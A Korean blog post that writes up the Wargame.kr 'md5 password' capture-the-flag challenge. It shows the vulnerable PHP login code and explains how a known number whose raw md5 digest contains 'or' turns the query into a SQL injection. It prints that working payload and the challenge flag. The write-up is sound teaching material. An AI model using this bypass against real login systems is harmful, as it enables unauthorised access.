 ```yaml
---
layout: post
title: ! "[Wargame.kr] md5 password 문제풀이"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - Wargame.kr
---
```


일하기가 싫으니까 1일 1문제가 너무 잘된다 ㅎㅎㅎ  

계속 문제 이렇게 꾸준히 풀면 언젠간 CTF에서도 좋은 성적을 얻을 수 있겠지...?? ㅎㅎ  

이번 문제는 `MD5 SQL Injection`이다.  

<!--more-->

문제 정보는 다음과 같다.  

```
md5('value', true);
```

문제 페이지에 접속하면 `password`를 입력하는 칸이 하나 있고, 페이지의 소스코드를 확인할 수 있다.  

```php
<?php
 if (isset($_GET['view-source'])) {
  show_source(__FILE__);
  exit();
 }

 if(isset($_POST['ps'])){
  sleep(1);
  mysql_connect("localhost","md5_password","md5_password_pz");
  mysql_select_db("md5_password");
  mysql_query("set names utf8");
  /*
  
  create table admin_password(
   password char(64) unique
  );
  
  */

  include "../lib.php"; // include for auth_code function.
  $key=auth_code("md5 password");
  $ps = mysql_real_escape_string($_POST['ps']);
  $row=@mysql_fetch_array(mysql_query("select * from admin_password where password='".md5($ps,true)."'"));
  if(isset($row[0])){
   echo "hello admin!"."<br />";
   echo "Password : ".$key;
  }else{
   echo "wrong..";
  }
 }
?>
<style>
 input[type=text] {width:200px;}
</style>
<br />
<br />
<form method="post" action="./index.php">
password : <input type="text" name="ps" /><input type="submit" value="login" />
</form>
<div><a href='?view-source'>get source</a></div>
```

소스코드를 살펴보면, 내가 입력 한 `password`의 값이 `md5` 함수를 통과 해 쿼리문의 `password` 자리에 들어간다.  

근데 이 때, `md5($ps, true)`를 사용한다.  

`php`에서 `md5()` 함수를 사용할 때, 두 번째 인자는 `true` 혹은 `false`의 값을 받는다.  

만약에 `true`라면, 결과가 `binary` 형태로 나오고, `false`라면 `hex` 값의 형태로 나온다.  

물론 `defalut` 값은 `false`이다.  

두 번째 인자가 `ture`일 경우 만약에 내가 입력 한 `password`가 `md5` 함수를 통과하여 `binary` 형태로 나왔을 때, `ASCII` 범위 안에 있는 문자라면 그대로 출력된다.  

때문에 만약 `md5` 함수를 통과 한 결과가 `' or '` 형태를 띈다면 완성되는 쿼리는 다음과 같기 때문에 `SQL Injection`이 가능해 진다.  

```
select * from admin_password where password='' or ''
```

이런 형태가 나오는 값을 직접 구해봐도 되지만, 아마도 인터넷에 잘 알려져 있을 것 같았다.  

그래서 구글신에게 `md5 sql injection`이라고 검색을 해 봤더니 아래와 같은 값을 입력하면 `' or '` 형태의 결과값을 얻을 수 있다고 한다.  

```
129581926211651571912466741651878684928
```

이를 직접 `python`으로 테스트 해 보았다.  

```
$ python
Python 2.7.12 (default, Dec  4 2017, 14:50:18) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import hashlib
>>> print hashlib.md5("129581926211651571912466741651878684928").digest()
ٔ0Do#ࠁ'or'8
```

그 결과 완성되는 쿼리는 다음과 같다.  

```
select * from admin_password where password='ٔ0Do#ࠁ'or'8'
```

때문에 `password='ٔ0Do#ࠁ'` 부분은 `false`가 되고 `'8'` 부분이 `true`가 되어 값을 추출할 수 있다.  

다시 문제 페이지로 돌아가 `129581926211651571912466741651878684928` 입력했더니 아래와 같이 flag를 얻을 수 있었다.  

![](/images/wargame.kr/md5_password/md5_01.png)

```
FLAG : 3f73ad2d57d66488b92c10f0bce1cfcb35e99882 
```
